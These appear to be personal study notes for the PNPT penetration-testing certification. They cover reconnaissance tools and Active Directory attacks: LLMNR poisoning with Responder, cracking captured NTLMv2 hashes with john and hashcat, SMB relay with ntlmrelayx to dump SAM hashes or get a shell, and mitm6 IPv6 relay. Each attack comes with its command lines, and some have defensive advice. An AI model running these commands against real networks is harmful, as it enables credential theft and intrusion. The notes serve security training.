```yaml
---
title: PNPT Notes
date: 2022-11-06 12:19
categories: [pnpt]
tags: [pnpt]
--- 
```


# Reconnaissance

## Email Enumeration

[hunter.io](hunter.io)

[phonebook.cz](phonebook.cz)

[EmailHippo](tools.verifyemailaddress.io)

## Subdomain Enumeration

```
sublist3r -d corp(dot)com
```

[crt.sh](crt.sh)  %.corp.com, does certificate fingerprinting.

wfuzz

## Host Discovery

```bash
netdiscover -r x.x.x.0/24 will sweep an entire subnet.
```

# Active Directory Attacks

## LLMNR Poisoning

Link local multicast name resolution, used when DNS fails to resolve a hostname, can be an easy win if LLMNR is not disabled in the environment and users have weak credentials. Use responder from the impacket suite to listen on an interface, works better at times with high traffic.

```bash
Python responder.py -I eth0 -rdwv
```

If certain events occur, you can obtain a username and NTLM hash, which can be cracked with john or hashcat.

```bash
john --wordlist=/path/to/rockyou.txt /path/to/hash.txt
```

hashcat -m 5600 /path/to/hash.txt /path/to/rockyou.txt (5600 is the module for NTLMv2)

[Hashcat binary](https://hashcat.net/hashcat/) can be downloaded here, and should be ran on base OS.

### Defending against LLMNR attacks

Best defense against this attack is to simply disable LLMNR and NBT-NS, if they can not be disabled then strong access controls and strong passwords should be enforced on the network.

## SMB Relay Attacks

Instead of cracking the hash, we can also use it to gain access to a machine if our stolen user hash represents a local admin on the target machine. **SMB signing must be disabled for this to work**.

Edit the responder.conf file and turn off SMB and HTTP servers, run responder --> responder is only capturing hashes, ntlmrelayx will do the actual relay.

```bash
python ntlmrelayx.py -tf targets.txt -smb2support
```

Can dump the SAM file --> get access to local user hashes.

Add -i argument to get an interactive shell spawned on your machine. "started interacvtive SMB client shell via TCP on localhost:11000" -> use netcat to interract, can view/modify/

### Enumerating hosts with SMB signing disabled

```bash
nmap --script=smb2-security-mode.nse -p 445 192.168.1.0/24
```

Disabled by default on workstations, enabled and required by default on servers. enabled but not required = vulnerable. 

### Defending against SMB relay attacks

Enable SMB signing on all devices, disable NTLM authentication, account tiering (least priv.), local admin restriction.

## IPv6 Attacks

[Clone MiTM6](https://github.com/dirkjanm/mitm6) and run "pip3 install ."

Starting by running

```bash
mitm6 -d domain.local
```

and concurrently run

```bash
ntlmrelayx.py -6 -t ldaps://dc.ip.add.res -wh fakewpad.domain.local -l lootme
```

Very extensive tool, can create new users/update ACLs, dump creds, gather info, etc.
